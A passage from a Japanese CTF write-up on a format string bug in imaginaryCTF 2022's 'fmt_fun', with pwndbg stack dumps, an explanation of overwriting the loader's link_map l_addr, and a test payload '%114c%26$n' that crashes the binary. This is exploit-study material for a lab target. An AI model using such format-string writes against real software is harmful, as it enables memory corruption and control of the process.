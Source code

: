 ```
pwndbg> telescope 32
00:0000│ rbp rsp  0x7ffd8d228080 ◂— 0x0
01:0008│          0x7ffd8d228088 —▸ 0x7fb285fab0b3 (__libc_start_main+243) ◂— mov    edi, eax
02:0010│          0x7ffd8d228090 —▸ 0x7fb2861b6620 (_rtld_global_ro) ◂— 0x50a1000000000
03:0018│          0x7ffd8d228098 —▸ 0x7ffd8d228178 —▸ 0x7ffd8d22a256 ◂— './fmt_fun'
04:0020│          0x7ffd8d2280a0 ◂— 0x100000000
05:0028│          0x7ffd8d2280a8 —▸ 0x4011b6 (main) ◂— endbr64 
06:0030│          0x7ffd8d2280b0 —▸ 0x401270 (__libc_csu_init) ◂— endbr64 
07:0038│          0x7ffd8d2280b8 ◂— 0xd05c077a3f3683ca
08:0040│          0x7ffd8d2280c0 —▸ 0x4010d0 (_start) ◂— endbr64 
09:0048│          0x7ffd8d2280c8 —▸ 0x7ffd8d228170 ◂— 0x1
0a:0050│          0x7ffd8d2280d0 ◂— 0x0
... ↓
0c:0060│          0x7ffd8d2280e0 ◂— 0x2fa71d3f3e1683ca
0d:0068│          0x7ffd8d2280e8 ◂— 0x2f390c8f5ff883ca
0e:0070│          0x7ffd8d2280f0 ◂— 0x0
... ↓
11:0088│          0x7ffd8d228108 ◂— 0x1
12:0090│          0x7ffd8d228110 —▸ 0x7ffd8d228178 —▸ 0x7ffd8d22a256 ◂— './fmt_fun'
13:0098│          0x7ffd8d228118 —▸ 0x7ffd8d228188 —▸ 0x7ffd8d22a260 ◂— 'COLORTERM=truecolor'
14:00a0│          0x7ffd8d228120 —▸ 0x7fb2861b8190 ◂— 0x0
15:00a8│          0x7ffd8d228128 ◂— 0x0
... ↓
17:00b8│          0x7ffd8d228138 —▸ 0x4010d0 (_start) ◂— endbr64 
18:00c0│          0x7ffd8d228140 —▸ 0x7ffd8d228170 ◂— 0x1
19:00c8│          0x7ffd8d228148 ◂— 0x0
... ↓
1b:00d8│          0x7ffd8d228158 —▸ 0x4010fe (_start+46) ◂— hlt    
1c:00e0│          0x7ffd8d228160 —▸ 0x7ffd8d228168 ◂— 0x1c
1d:00e8│          0x7ffd8d228168 ◂— 0x1c
1e:00f0│ r13      0x7ffd8d228170 ◂— 0x1
1f:00f8│          0x7ffd8d228178 —▸ 0x7ffd8d22a256 ◂— './fmt_fun'
```

1回しか`printf`が使えず、FSBでパズルや運試しをする真似はしたくなかったのでスタック上のアドレスを指しているものはwritableだが無視する(少々のパズルと運試しで解けるのでやりたい人は下記Other Solutionを参照)。そうなると、使えるのはELF, libc, ldの為に確保されたwritableな領域であり、該当するのは上のスタックダンプにおいて0x14番目の0x7ffd8d22812であり、ここの値となっている0x7fb2861b8190はldの配置先の下に存在し、writableな領域である。

この0x7fb2861b8190が何を指しているかだが、CTF終了後にDiscordに載っていた記事: [ångstromCTF 2021 - wallstreet (pwn) | TJCSC](https://activities.tjhsst.edu/csc/writeups/angstromctf-2021-wallstreet)によると、終了時に呼び出される関数のアドレス解決に用いる`link_map`構造体らしい。詳しい説明は記事とglibcを読んでいただくとして、`link_map`の先頭メンバである`l_addr`を書き換えると、呼び出される関数ポインタの配列が変化する。よってFSBでここを書き換えると、`l_addr`が書き換わることになり、ここは元々0だったことを考えると書き込んだ分だけ関数ポインタの配列がずれることになる。

実際にここを0から114に変えてみた結果が次の通り(該当する書式文字列は`%114c%26$n`)

```
pwndbg> run
Starting program: /home/xornet/CTF/2022/imaginaryCTF_2022/format_string_fun/fmt_fun 
Welcome to Format Fun!
I'll print one, AND ONLY ONE, string for you.
Enter your string below:
%114c%26$n
                                                                                                                 

Program received signal SIGSEGV, Segmentation fault.
0x00007ffff7fe0f58 in ?? () from /lib64/ld-linux-x86-64.so.2
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
─────────────────────────────────────[ REGISTERS ]─────────────────────────────────────
 RAX  0x0
 RBX  0x7ffff7ffd060 (_rtld_global) —▸ 0x7ffff7ffe190 ◂— 0x72 /* 'r' */
 RCX  0x0
 RDX  0x1
 RDI  0x7ffff7ffd968 (_rtld_global+2312) ◂— 0x0
 RSI  0x403e2a (_DYNAMIC+106) ◂— 0xfef5000000000000
 R8   0x1
```

[^1]: このCTFでこの問題を含めて3回出ているので、作者はFSBが好きなのかもしれない
[^2]: pwndbgだと色が付いていて見やすいがブログに出力をコピペする時はそうもいかない
[^3]: Heap Sprayで`nop`を連発したり、ROPで`ret`を連発するみたいな感じで実は気に入っている方法である
[^4]: 更に`printf`では一度位置指定としての数字を使うとその時点で各数字に対応する値が確定する。よって`%n`での書き換えを同一書式文字列で複数回行おうとすると`%n`は実質1回しか使えず、後は`%`を大量に並べるクソパズルになったのもやる気を削いだ原因の1つ